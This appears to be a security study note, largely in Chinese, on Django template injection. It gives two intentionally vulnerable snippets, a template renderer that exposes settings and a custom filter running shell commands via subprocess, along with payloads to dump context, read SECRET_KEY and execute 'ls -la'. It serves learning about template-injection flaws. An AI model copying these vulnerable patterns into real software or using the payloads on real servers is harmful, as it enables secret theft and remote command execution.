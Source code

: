 # Python Django

## Installation

```sh
$ pip install django
```

## Vulnerable Code I

```python
import traceback
import django
from django.conf import settings
TEMPLATES = [
    {
        'BACKEND': 'django.template.backends.django.DjangoTemplates',
        'DIRS': [],
    }
]
_setting = dict(TEMPLATES=TEMPLATES, SECRET_KEY='Flag{w0W_3sTl_1n_@jango_sYi11_aLiVe}')
settings.configure(**_setting)
django.setup()
from django.template import Template, Context
while True:
    temp = raw_input("Try to get Key\n> ").strip()
    try:
        s = Template(temp).render(Context(dict(settings=settings)))
    except:
        print(traceback.format_exc())
    else:
        print(s)
```

## Exploit I

沒辦法直接RCE, 只能看看當前 context 有什麼變數

statement 限制:

1. 不能有()
2. 不能有[]
3. 變數不能以\_開頭 ex. a.\_b (X)

```python
{% debug %}
->  {'product': {'name': 'Sarcastic 9 Ball', 'price': '$55.21', 'stock': 26}, 'settings': <LazySettings "None">}{'False': False, 'None': None, 'True': True} {'Cookie': <module 'Cookie' from '/usr/lib/python2.7/Cookie.pyc'>, …}
其實只有 product 跟 settings 可以用, 第三區的模組(Cookie, ...)貌似都不是變數
settings 猜測是 django 的 settings.py, 因此有機會拿到 settings.SECRET_KEY

拿到 SECRET_KEY 之後如果伺服器剛好是設定

1. SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'
2. SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'

就有機會用反序列化 RCE
- https://rickgray.me/2015/09/12/django-command-execution-analysis/
```

## Vulnerable Code II

run.py
```
TEMPLATES = [
    {
        'BACKEND': 'django.template.backends.django.DjangoTemplates',
        'DIRS': [],
        'OPTIONS': {
            'builtins': [
                'vuln_code',
            ]
        }
    }
]
```

vuln\_code.py
```
import subprocess
from django import template

register = template.Library()

@register.filter
def dexec(string):
    p = subprocess.Popen(string, shell=True, stdout=-1)
    return p.communicate()[0]
```

## Exploit II

平常應該遇不到這種配置, 自定義的 filter 存在執行 command 的能力.
不過也不是沒有可能, 也許會有人自定義 filter 執行查詢功能, 不小心開啟了 Command Injection 之類

```
{{ "ls -la"|dexec }}
```

